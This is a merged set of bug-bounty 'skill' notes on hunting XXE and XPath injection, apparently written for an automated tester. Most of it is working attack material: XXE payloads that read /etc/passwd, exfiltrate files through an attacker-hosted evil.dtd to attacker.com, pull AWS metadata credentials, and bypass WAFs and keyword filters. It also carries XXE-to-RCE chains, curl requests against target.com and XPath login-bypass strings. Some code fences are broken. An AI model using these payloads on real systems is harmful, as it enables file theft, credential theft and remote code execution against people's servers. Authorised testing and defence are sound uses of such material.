







# MERGED SOURCE KNOWLEDGE: xxe

161 unique sections from 4 source files. Each section appears in exactly one target.


## SOURCE: hunt-skills/hunt-xxe/SKILL.md

## Crown Jewel Targets

XXE is a critical-severity vulnerability that consistently pays at the top of bug bounty scales ($5,000–$30,000+) due to its direct path to sensitive data exfiltration and SSRF. Highest-value targets:

- **Large enterprise platforms** with XML-heavy backend integrations (finance, logistics, ride-sharing APIs)
- **Domains with file-read capability** — `/etc/passwd`, `/etc/shadow`, internal config files, AWS metadata endpoints
- **Subdomains sharing backend infrastructure** — one XXE endpoint can pivot to internal services across dozens of domains (as demonstrated by 26+ Uber domains via a single entry point)
- **API gateways** accepting XML content types — especially REST APIs that silently accept `Content-Type: application/xml`
- **File upload features** — SVG, DOCX, XLSX, PDF, PPTX parsers on the server side
- **SAML/SSO endpoints** — SAML assertions are XML-based and frequently vulnerable
- **Office/document processing services** — any feature that converts or processes user-supplied documents

---

### URL Patterns
```
/api/v*/xml
/upload
/import
/parse
/convert
/saml/acs
/sso/saml
/feed
/rss
/sitemap
/webdav
/soap/*
/wsdl
/service.asmx
/xmlrpc
/graphql (multipart with XML)
```

### Request/Response Headers
```
Content-Type: application/xml
Content-Type: text/xml
Content-Type: application/soap+xml
Content-Type: multipart/form-data  ← check file upload fields
Accept: application/xml
X-Content-Type-Options: (absent — good sign of loose parsing)
```

### JavaScript Patterns (source recon)
```javascript
// Look for in JS bundles
XMLSerializer
DOMParser
parseFromString
new ActiveXObject("Microsoft.XMLDOM")
$.parseXML(
xml2js
libxmljs
lxml
```

### Tech Stack Signals
- **Java stacks**: Spring, Struts, JAX-WS — default XML parsers (SAX, DOM) are XXE-vulnerable without explicit hardening
- **PHP**: `simplexml_load_string()`, `DOMDocument::loadXML()` — vulnerable by default pre-PHP 8
- **Python**: `lxml`, `xml.etree` (safe by default), `xml.sax` (unsafe)
- **Ruby**: `Nokogiri` older versions, `REXML`
- **Node.js**: `xml2js`, `libxmljs`, `fast-xml-parser` (older versions)
- **WSDL/SOAP services**: Always test — legacy XML parsing virtually guaranteed
- **File parsers**: Apache POI (Java), python-docx, LibreOffice integrations

---

## Step-by-Step Hunting Methodology

1. **Map every XML entry point** — Use Burp Suite passive scanner to flag all requests/responses with XML content types. Also intercept JSON endpoints and manually swap `Content-Type` to `application/xml` with equivalent XML body.

2. **Identify file upload features** — Upload SVG, DOCX, XLSX, and observe if the server processes/renders content. These are often XML under the hood.

3. **Attempt inline XXE (classic file read)** — Replace the XML body with a basic entity test payload targeting `/etc/passwd` or `C:\Windows\win.ini`. Observe if the value is reflected in the response.

4. **If no reflection, pivot to Blind OOB** — Set up an OOB listener (Burp Collaborator, interactsh, or a self-hosted netcat server). Inject an external entity pointing to your callback URL. Confirm DNS/HTTP hit to validate the parser is making outbound connections.

5. **Escalate Blind OOB to file exfiltration** — Use a two-stage payload: first entity loads local file, second entity sends it OOB via HTTP parameter or DNS exfiltration.

6. **Test SSRF pivot** — Point the external entity at internal network addresses (`http://169.254.169.254/latest/meta-data/`, `http://10.0.0.1/`, `http://localhost:8080/admin`). Look for differences in response timing or error messages.

7. **Test all subdomains sharing the same backend** — If one subdomain is vulnerable, enumerate and test all others systematically. Shared backend infrastructure means shared vulnerability.

8. **Test parameter-level injection** — Some endpoints parse only specific XML nodes. Inject entities into every element value, attribute value, and even element names.

9. **Test for error-based exfiltration** — If OOB is blocked, trigger XML parsing errors that include file content in the error message returned to the client.

10. **Document the full impact chain** — Demonstrate: file read → SSRF → internal service access → note which internal domains/IPs are reachable.

---

### Error-based exfil via local-DTD repurposing (zero network egress)
When both `file://` outbound AND external-DTD fetch are blocked, reference a DTD already on disk and redefine one of its internal entities so the target file content leaks in the parse error:
```xml
<!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; err SYSTEM &#x27;file:///nonexist/%file;&#x27;>">
    %eval; %err;'>
  %local_dtd; ]>
```
Needs zero network egress. Local DTD paths differ per distro (yelp/docbookx is common) — enumerate. (PortSwigger: XXE by repurposing a local DTD.)

### Classic In-Band File Read
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><data>&xxe;</data></root>
```

### Windows Equivalent
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
]>
<root><data>&xxe;</data></root>
```

### Blind OOB — DNS/HTTP Callback
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://YOUR.BURPCOLLABORATOR.net/xxe-test">
]>
<root><data>&xxe;</data></root>
```

### Blind OOB — File Exfiltration via Parameter Entity (two-stage)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://YOUR-SERVER/evil.dtd">
  %dtd;
]>
<root><data>trigger</data></root>
```

**evil.dtd (hosted on attacker server):**
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://YOUR-SERVER/?data=%file;'>">
%all;
```

### SSRF via XXE (AWS Metadata)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<root><data>&ssrf;</data></root>
```

### SVG XXE (for file upload endpoints)
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/hostname">]>
<svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg">
  <text font-size="14" x="0" y="16">&xxe;</text>
</svg>
```

### DOCX/XLSX XXE — Inject into `[Content_Types].xml` or `word/document.xml`
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<Types xmlns="..."><Default Extension="rels" ContentType="&xxe;"/></Types>
```

# Original JSON request
curl -X POST https://target.com/api/endpoint \
  -H "Content-Type: application/json" \
  -d '{"user":"test"}'

# Converted to XML for XXE testing
curl -X POST https://target.com/api/endpoint \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://COLLABORATOR.net">]><user>&xxe;</user>'
```

# PHP
grep -rn "simplexml_load_string\|DOMDocument\|xml_parse\|loadXML\|SimpleXMLElement" .

# Java
grep -rn "DocumentBuilder\|SAXParser\|XMLReader\|XMLInputFactory\|TransformerFactory" .

# Look for missing hardening
grep -rn "FEATURE_EXTERNAL_GENERAL_ENTITIES\|setExpandEntityReferences\|setFeature.*false" .
```

---

## Common Root Causes

1. **Default parser configurations** — Java's `DocumentBuilderFactory`, PHP's `DOMDocument`, and Python's `lxml` all support external entities by default. Developers use them without reading the security docs.

2. **Framework upgrades without security re-review** — Older versions of Spring, Struts, and similar frameworks enabled XXE by default; developers didn't re-audit XML handling when libraries changed.

3. **Hidden XML consumption** — Developers accept JSON at the API layer but convert to XML internally, or use libraries (Apache POI, python-docx) to process uploads without realizing those formats are XML containers.

4. **Copy-paste code from StackOverflow** — XML parsing examples online rarely include entity disabling. Developers copy minimal working examples straight into production.

5. **SAML/SSO library misconfigurations** — SSO integrations often delegate XML parsing to third-party libraries with XXE enabled; developers assume "library handles security."

6. **Testing gaps on non-primary content types** — QA tests JSON APIs extensively; XML code paths receive minimal security testing because they're secondary or legacy.

7. **Microservice XML messaging** — Internal service-to-service communication uses XML (SOAP, custom schemas) and is treated as a "trusted internal" concern, bypassing security review.

---

### Defense: Keyword blacklist (`ENTITY`, `DOCTYPE`, `SYSTEM`)
```xml
<!-- Case variation -->
<!DoCtYpE foo [<!EnTiTy xxe SyStEm "file:///etc/passwd">]>

<!-- Encoding bypass -->
<?xml version="1.0" encoding="UTF-16"?>
(submit the entire payload UTF-16 encoded)

<!-- Parameter entity instead of general entity -->
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe;]>
```

### Defense: External entity fetching disabled (file:// blocked)
```xml
<!-- Try alternative URI schemes -->
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY xxe SYSTEM "netdoc:///etc/passwd">       <!-- Java -->
<!ENTITY xxe SYSTEM "jar:file:///etc/passwd!/">   <!-- Java -->
<!ENTITY xxe SYSTEM "gopher://internal-service:80/_GET%20/">
```

### Defense: WAF blocking XXE patterns
```xml
<!-- Chunked transfer encoding to bypass WAF inspection -->
Transfer-Encoding: chunked

<!-- HTTP request splitting with XML payload spread across chunks -->

<!-- Use XML comments to break signatures -->
<!-–- -->DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

<!-- Nested encoding -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "&#x66;&#x69;&#x6c;&#x65;:///etc/passwd">]>
```

### Defense: Network egress filtering (OOB blocked)
```xml
<!-- DNS-only exfiltration (port 53 often allowed) -->
<!ENTITY % data SYSTEM "file:///etc/hostname">
<!ENTITY % send "<!ENTITY exfil SYSTEM 'http://%data;.attacker.com/'>">

<!-- Error-based exfiltration (no outbound needed) -->
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///notexist/%file;'>">
  %eval; %error;
]>
```

# Try mismatched Content-Type headers
Content-Type: application/json; charset=xml
Content-Type: application/xml+json

### Defense: Input length limits
```xml
<!-- Use billion laughs to test parser limits, and use short file paths -->
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;">
]>
<!-- Escalate to demonstrate DoS if XXE file-read is patched -->
```

---

## Parser-ecosystem vulnerability matrix

XXE classic payloads (`<!ENTITY xxe SYSTEM "file://...">`) are not universally exploitable in 2026. Most mainstream language ecosystems have hardened their default XML parsers since 2018-2024. Fingerprint the target stack BEFORE investing time in XXE — sometimes the parser is already safe and the bug class doesn't apply.

| Ecosystem / parser | Default behavior on SYSTEM entity | Vulnerable by default? |
|---|---|---|
| Java SAX / DOM (`XMLInputFactory` without disabling external entities) | Expands SYSTEM file:// | **YES** |
| Java JAXB / JAX-WS (older Spring versions) | Expands | **YES** |
| PHP `DOMDocument` with `LIBXML_NOENT` flag | Expands SYSTEM | **YES** |
| PHP `simplexml_load_*` with `LIBXML_NOENT` | Expands | **YES** |
| .NET `XmlDocument` with `XmlResolver` explicitly set | Expands | **YES** |
| .NET `XmlReader` with `DtdProcessing=Parse` + `XmlResolver` explicitly set | Expands | **YES** (default since .NET 4.5.2 is `DtdProcessing.Prohibit`, which THROWS on any DOCTYPE — modern default is safe) |
| Python `xml.etree.ElementTree` ≥ 3.7.1 | SYSTEM disabled | NO |
| Python `lxml` (verified 6.x; likely ≥ 5.x) | Drops SYSTEM file content even with `resolve_entities=True`; may still issue network fetches when `no_network=False` | NO for file read (verified locally on 6.1.0 — see `docs/verification/phase2g-saml-mfa-xxe.md`) |
| Python `xml.dom.minidom` | Default safe in current versions | NO |
| Python `defusedxml.lxml` | Disabled | NO |
| Ruby Nokogiri default | Disabled | NO |
| Ruby Nokogiri with `Nokogiri::XML::ParseOptions::DTDLOAD` | Expands | **YES** |
| Apache Struts (older) | Often expands | **YES** |
| Embedded IoT / industrial XML processors (firmware) | Frequently vulnerable | **YES** |
| Microsoft Office OOXML processors that re-parse user content | Vulnerable in some legacy paths | **YES** |

**Fingerprint signals to look for:**

- `Server: Apache Tomcat`, `X-Powered-By: Servlet` → Java backend → **likely YES**
- `X-Powered-By: PHP/...` + endpoint that ingests XML → **likely YES** if app uses `DOMDocument`
- `Server: Microsoft-IIS` with `.aspx` and XML SOAP → **likely YES** on legacy code
- Server says nothing identifiable + endpoint accepts XML → **probe with `&hello;` first**; if the inline entity expands, escalate to SYSTEM. If the inline entity also fails to expand, the parser may be hardened — pivot.

**Pre-Severity Gate:** before claiming XXE on a candidate endpoint, run the inline-entity probe (`<!ENTITY hello "world!">` then `&hello;` in a node). If `hello!` does NOT echo back, parser-level entity expansion is disabled and SYSTEM file:// won't work either. Don't waste cycles on a hardened parser.

---

## Gate 0 Validation

Before writing the report, answer all three:

1. **What can the attacker DO right now?**
   - Can you show the contents of `/etc/passwd` or `win.ini` in the response? OR can you demonstrate a confirmed OOB callback with a file's contents transmitted to your server? OR can you reach an internal SSRF endpoint (metadata, internal admin)?

2. **What does the victim LOSE?**
   - Specific sensitive data must be identified: internal credentials, AWS IAM keys, application config files with DB passwords, PII, or internal network topology. "Parser made a DNS request" alone is insufficient — escalate to demonstrate actual data exposure or internal access.

3. **Can it be reproduced in 10 minutes from scratch?**
   - You must have a single `curl` command or Burp repeater request that a triage engineer can run against the live target and see the impact within 10 minutes, with zero ambiguity about the vulnerable parameter and endpoint.

---

### Scenario A: Single Endpoint → 26 Domains Compromised (Uber-scale)
A tester discovered an XML parsing endpoint on one Uber subdomain. The backend processed XML using a vulnerable parser, and the server made outbound HTTP requests to attacker-controlled infrastructure (blind OOB). Because the vulnerable XML processing service was a shared internal microservice, the same vulnerability was reachable through 26+ different public-facing domains — all sharing the backend. A single payload could read `/etc/passwd`, internal config files, and reach AWS metadata endpoints, effectively giving access to credentials reusable across the entire infrastructure.

**Business impact**: Full internal service compromise across the majority of the production domain fleet; potential for credential theft and lateral movement.

### Scenario B: Document Upload → Local File Read on Twitter-scale Platform
An attacker uploaded a crafted XML-based document (e.g., SVG or Office format) to a document processing feature on a major social platform. The server-side parser processed the embedded DTD and external entity references, returning local file contents in the parsed output or error messages. The attacker could read application config files containing database connection strings, internal API keys, and potentially private user data stored on the same filesystem.

**Business impact**: Exposure of production secrets (database credentials, API keys) via a feature intended for harmless file uploads; no authentication bypass required beyond a standard user account.

### Scenario C: JSON API → Hidden XML Parser → SSRF to Internal Services
A REST API endpoint nominally accepting JSON was found to also parse requests submitted as `application/xml`. The underlying service converted XML to an internal format using an unpatched Java `DocumentBuilderFactory`. By injecting a SYSTEM entity pointing at `http://10.0.0.x` address ranges, the tester could probe internal services, reach an unauthenticated internal admin panel, and retrieve AWS instance metadata including temporary IAM credentials — all through a single API call requiring only a valid session token.

**Business impact**: Complete AWS credential compromise from a single authenticated API call, enabling privilege escalation from application-level user to cloud infrastructure administrator.

---

## Disclosed Report Citations (Backfill +6 — 2016-2024)

The following real, verified bug-bounty / coordinated-disclosure cases extend this skill. Three cases (#7, #9, #10) are OOB-required (blind) — they cross-reference the `hunt-ssrf` OOB-Or-It-Didn't-Happen Gate and cannot be claimed without a Collaborator/interactsh callback.

5. **Mail.ru — Pulse RSS/Atom feed XXE (file read)** ([H1 #505947](https://hackerone.com/reports/505947))
    - Subclass: direct file-read XXE (in-band)
    - Payload: `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>` inside RSS feed body → `<title>&xxe;</title>` reflected in response
    - Root cause: pulse.mail.ru RSS/Atom ingestion called an XML parser with `external general entities` enabled
    - Year: 2019 — **$6,000**

6. **Twitter — sms-be-vip.twitter.com SOAP/SXMP servlet XXE** ([H1 #248668](https://hackerone.com/reports/248668))
    - Subclass: SOAP XXE (cloudhopper SXMP servlet) — confirmed via HTTP callback **and** reflected file read
    - Payload: `<!DOCTYPE r [<!ENTITY % ext SYSTEM "http://attacker/x.dtd"> %ext;]>` chained in SXMP request body
    - Root cause: Cloudhopper SXMP servlet parsed inbound XML with default JAXP settings (entities resolved)
    - Year: 2017 — **$10,080** (classic SOAP-XXE reference case)

7. **Zivver — SVG profile-picture upload XXE → SSRF** ([H1 #897244](https://hackerone.com/reports/897244))
    - Subclass: SVG-upload XXE, OOB-confirmed, chains to SSRF
    - Payload: SVG with `<!DOCTYPE svg [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]><text>&xxe;</text>`
    - Root cause: server thumbnailed uploaded SVG with an XML parser that resolved external entities; no entity-resolver shutdown
    - Year: 2020 — Zivver had no paid program at the time

8. **Open-Xchange — Blind XXE via PowerPoint (.pptx) import** ([H1 #334488](https://hackerone.com/reports/334488))
    - Subclass: Office-doc XXE (PPTX = ZIP of XML parts), OOB-required
    - Payload: modify `ppt/slides/slide1.xml` inside the .pptx ZIP to include `<!DOCTYPE x [<!ENTITY % a SYSTEM "http://attacker/d.dtd"> %a;]>`; external DTD chains parameter entities to exfil `file:///etc/passwd` over HTTP
    - Root cause: PowerPoint parser pre-rendered the XML parts of the OOXML container before disabling entity resolution
    - Year: 2018 — **$2,000**

9. **Uber — Blind OOB XXE on ubermovement.com** ([H1 #154096](https://hackerone.com/reports/154096))
    - Subclass: blind OOB XXE (third-party vendor product), OOB-required
    - Payload: `<!DOCTYPE r [<!ENTITY ping SYSTEM "http://attacker.example/">]><search><q>&ping;</q></search>`
    - Root cause: generic XML endpoint in Movement's vendor stack accepted XML and resolved system entities; no data exfil possible (sandboxed), only blind ping
    - Year: 2016 — **$500**

10. **Adobe Commerce / Magento — "CosmicSting" CVE-2024-34102** ([Assetnote writeup](https://www.assetnote.io/resources/research/why-nested-deserialization-is-harmful-magento-xxe-cve-2024-34102))
    - Subclass: XXE-to-RCE (nested deserialization → XXE in Laminas request body) — modern, exploited in the wild
    - Payload: REST API JSON request whose nested `simplexml_load_string()` reaches `<!DOCTYPE r [<!ENTITY % d SYSTEM "http://attacker/x.dtd"> %d;]>`; external DTD reads `app/etc/env.php` (admin crypt-key) and POSTs it back; key forges admin token → RCE
    - Root cause: `Laminas\Http\PhpEnvironment\Request` deserialized `simplexml_load_string` on attacker-controlled body without `LIBXML_NOENT` protections
    - Year: 2024 — Adobe HackerOne bounty paid, CVSS 9.8

---

## Related Skills & Chains

- **`hunt-ssrf`** — XXE is SSRF-with-XML-syntax once you discover the parser fetches external entities. Chain primitive: blind XXE OOB `<!ENTITY % x SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/role">` → exfil AWS IMDS creds via parameter-entity DTD callback → STS AssumeRole chain. Where pure SSRF is filter-blocked, `gopher://` via XXE-in-`libxml2` can still reach Redis/SMTP.
- **`hunt-file-upload`** — XXE most often hides inside file-upload features that quietly parse XML (DOCX/XLSX/PPTX, SVG, GPX, KML, OOXML, SOAP attachments). Chain primitive: upload DOCX with malicious `[Content_Types].xml` containing parameter-entity DTD → OOB file read of `/etc/passwd` / `web.config` / `.aws/credentials` via the document parser running server-side.
- **`hunt-rce`** — XXE → RCE is rare but real on PHP (`expect://`), Java (XSLT extensions with `<xsl:script>`/Xalan), and older XmlSpy/SAXON deployments. Chain primitive: XXE in a Java endpoint using a vulnerable XSLT processor → `<xsl:value-of select="rt:exec(rt:getRuntime(),'id')"/>` → RCE; or PHP XXE with `expect://id` stream wrapper enabled → direct RCE.
- **`hunt-sharepoint`** — On-prem SharePoint/Exchange/IIS stacks have a long history of XXE in SOAP/CSOM/EWS endpoints. Chain primitive: anonymous XXE in `_vti_bin/*.asmx` or EWS SOAP → read `web.config` → recover `<machineKey>` → ViewState deserialization → RCE (the ToolShell-adjacent precondition).
- **`security-arsenal`** — Reach for the XXE payload tree: standard SYSTEM file read, parameter-entity OOB DTD pattern (the `%` indirection that makes blind XXE work), `php://filter/convert.base64-encode/resource=` for binary-safe read, XInclude (`<xi:include href=...>`) when DOCTYPE is blocked, billion-laughs/quadratic-blowup for DoS, and the `jar://` / `netdoc://` Java-specific wrappers.
- **`triage-validation`** — Apply the Reproducibility + Pre-Severity Gates. An XXE that only triggers an OOB DNS callback with NO data exfil is Low/Medium (information disclosure of "this parser fetches entities"), not Critical. Critical needs proof of file read or internal HTTP — show the actual `/etc/passwd` content or the IMDS JSON response in the report.


## SOURCE: normal-skills/xpath-injection.md

name: xpath-injection
description: Comprehensive XPath injection testing methodology covering node selection bypass, string extraction via union operators, blind character-by-character extraction, count enumeration, and advanced XML document traversal with optimized payloads and detection techniques.
version: 1.0.0
---

## Overview

XPath Injection is an attack technique used to exploit applications that construct XPath queries from user-supplied input to query XML data stores. When an application fails to properly sanitize input before embedding it into an XPath expression, attackers can manipulate the query logic to bypass authentication, extract arbitrary XML node values, enumerate document structure, or access unauthorized data.

**XPath Query Structure Context:**
- **Node Selection:** `/root/user/username` (absolute), `//user/username` (descendant), `//username` (anywhere)
- **Predicates (Filters):** `//user[username='admin' and password='secret']`
- **Operators:** `|` (union), `or`, `and`, `not()`, `=`, `!=`, `<`, `>`, `<=`, `>=`
- **Functions:** `substring()`, `string-length()`, `count()`, `normalize-space()`, `contains()`, `starts-with()`
- **Wildcards/Axes:** `*`, `node()`, `@*` (attribute), `child::`, `parent::`, `descendant::`

**Target Indicators:**
- Applications using XML databases (eXist-db, BaseX, MarkLogic)
- Legacy systems, SAML parsers, SOAP endpoints, RSS/Atom feed processors
- Config files stored as XML, user data in `.xml` format
- Error messages containing `XPathException`, `Invalid expression`, `XPTY0004`, `XPDY0002`

---

### 1.1 Initial Fuzzing & Error-Based Detection

Inject syntax-breaking characters into all XML-relevant parameters (query strings, POST bodies, headers, SOAP envelopes).

**Syntax Breakers:**
```
'
"
\
]
)
}
//
/*
||  (injection point for union in some contexts)
```

**Error Signatures to Monitor:**
- `javax.xml.xpath.XPathExpressionException`
- `System.Xml.XPath.XPathException`
- `XPath syntax error`
- `Unclosed string`
- `Invalid token`
- `Unexpected token`
- `XQuery/XPath static error`

**Optimized Detection Payloads (Minimal to Maximal):**

| Context | Payload | Expected Behavior |
|---------|---------|-------------------|
| String context | `'` | Error or changed result set |
| String context | `''` | No error (escaped single quote) |
| String context | `"` | Error (double quote break) |
| String context | `'"` | Error (mixed quote break) |
| Numeric context | `+` | Error or math evaluation |
| Numeric context | `1/0` | Division by zero error |
| Boolean context | `or 1=1` | All nodes returned |
| Boolean context | `and 1=2` | Empty result set |

### 1.2 Boolean-Based Fingerprinting

Determine if the query result affects application logic (login, search, display).

**True Condition:**
```
' or '1'='1
" or "1"="1
' or 1=1 or '
' or true() or '
' or string-length('a')=1 or '
```

**False Condition:**
```
' and '1'='2
" and "1"="2
' and 1=2 and '
' and false() and '
' and string-length('a')=2 and '
```

**Response Differentiation:**
- True: Application returns data, redirects to dashboard, shows "Welcome", displays search results
- False: Empty results, "Invalid credentials", "No records found", generic error

### 1.3 XPath-Specific Fingerprinting

Differentiate XPath from SQL injection by testing XPath-specific syntax that SQL parsers reject.

**XPath-Only Payloads:**
```
' or count(/)=1 or '   (True if document has 1 root)
' or count(/*)=1 or '  (True if root has 1 child element)
' or local-name(/*)='html' or '  (Reveals root element name)
' or name(/*)='root' or '
' or string-length(name(/*))>0 or '
' or count(//*)>10 or '  (True if >10 nodes exist)
' or count(//text())>0 or '
```

**If these execute without SQL syntax errors → Confirms XPath injection.**

### 1.4 Comment/Concatenation Fingerprinting

XPath 1.0 has no comment syntax, but some implementations support XQuery-style comments or tolerate unexpected closures.

**Closure Testing:**
```
' or '1'='1' ]         (Closes predicate)
' or '1'='1' )         (Closes function/grouping)
